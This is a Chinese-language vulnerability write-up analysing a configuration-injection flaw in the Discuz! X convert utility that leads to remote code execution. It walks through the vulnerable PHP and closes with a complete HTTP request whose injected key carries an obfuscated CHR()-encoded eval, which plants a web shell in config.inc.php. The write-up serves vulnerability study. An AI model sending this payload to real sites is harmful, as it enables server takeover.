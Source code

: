 ```yaml
---
title: Discuz 系列全版本 版本转换功能导致Getshell
id: zhfly2881
---
```


# Discuz! X 系列全版本，版本转换功能导致Getshell

## 一、漏洞简介

存在问题的代码在`/utility/convert/`目录下，这部分的功能主要是用于Dz系列产品升级/转换。

## 二、漏洞影响

Discuz! X 全版本

## 三、复现过程

### 漏洞分析

入口`utility/convert/index.php`

```
require './include/common.inc.php'; `$action = getgpc(‘a’);

$action = empty($action) ? getgpc(‘action’) : $action;

$source = getgpc(‘source’) ? getgpc(‘source’) : getgpc(‘s’);` 
```

取`$_POST['a']`,直接赋值给`$action`，此时`$action = config`;

```
} elseif($action == 'config' || CONFIG_EMPTY) {      
    require DISCUZ_ROOT.'./include/do_config.inc.php';  
} elseif($action == 'setting') { 
```

满足条件，引入`./include/do_config.inc.php`

```
@touch($configfile);
 ......
if(submitcheck()) {
    $newconfig = getgpc('newconfig');
    if(is_array($newconfig)) {
        $checkarray = $setting['config']['ucenter'] ? array('source', 'target', 'ucenter') : array('source', 'target');
        foreach ($checkarray as $key) {
      ......
    }
    save_config_file($configfile, $newconfig, $config_default); 
```

`$newconfig`从`$_POST[newconfig]`获取数据，`save_config_file`函数保将`$newconfig`保存到`$configfile`文件中，即`config.inc.php`文件。跟进该函数。

```
function save_config_file($filename, $config, $default) {
    $config = setdefault($config, $default);// 将$config中的空白项用 $default 中对应项的值填充
    $date = gmdate("Y-m-d H:i:s", time() + 3600 * 8);
    $year = date('Y');
    $content = <<<EOT
<?php

$_config = array(); `EOT;

$content .= getvars(array(’_config’ => $config));

$content .= “\r\n// “.str_pad(’  THE END  ', 50, ‘-’, STR_PAD_BOTH).” //\r\n\r\n?>”;

file_put_contents($filename, $content);

}` 
```

getvars函数处理，此时的`$config` = `$newconfig+config.default.php对应项的补充`。看一下getvars函数：

```
function getvars($data, $type = 'VAR') {
    $evaluate = '';
    foreach($data as $key => $val) {
        if(!preg_match("/^[a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*$/", $key)) {
            continue;
        }
        if(is_array($val)) {
            $evaluate .= buildarray($val, 0, "\${$key}")."\r\n";
        } else {
            $val = addcslashes($val, '\'\\');
            $evaluate .= $type == 'VAR' ? "\$$key = '$val';\n" : "define('".strtoupper($key)."', '$val');\n";
        }
    }
    return $evaluate;
} 
```

满足if条件会执行`buildarray`函数，此时`$key=_config`，`$val`=上面的`$config`。最终造成写入的在该函数中（update.php 2206行）：

```
foreach ($array as $key => $val) {
        if($level == 0) {
            //str_pad — 使用另一个字符串填充字符串为指定长度
            // 第一个参数是要输出的字符串，指定长度为50，用'-'填充，居中
            $newline = str_pad('  CONFIG '.strtoupper($key).'  ', 50, '-', STR_PAD_BOTH);
            $return .= "\r\n// $newline //\r\n";
        } 
```

本意是使用`$config`数组的key作为每一块配置区域的"注释标题"，写入配置文件的$newline依赖于$key，而$key是攻击者可控的。

未对输入数据进行正确的边界处理，导致可以插入换行符，逃离注释的作用范围，从而使输入数据转化为可执行代码。

### 漏洞复现

在产品升级/转换->选择产品转换程序 ->设置服务器信息 这里抓包，

payload：

```
POST /dz/utility/convert/index.php HTTP/1.1
Host: www.0-sec.org:8001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 278
Origin: http://127.0.0.1:8001
Connection: close
Referer: http://127.0.0.1:8001/dz/utility/convert/index.php
Upgrade-Insecure-Requests: 1 `a=config&source=d7.2_x1.5&submit=yes&newconfig[aaa%0a%0deval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).CHR(84).CHR(91).CHR(108).CHR(97).CHR(110).CHR(118).CHR(110).CHR(97).CHR(108).CHR(93).CHR(59).CHR(34).CHR(41).CHR(59));//]=aaaa` 
```

![image](../img/695ada7a7dad1f24740b144ec76d5c60.png)

## 参考链接

> https://xz.aliyun.com/t/7492#toc-18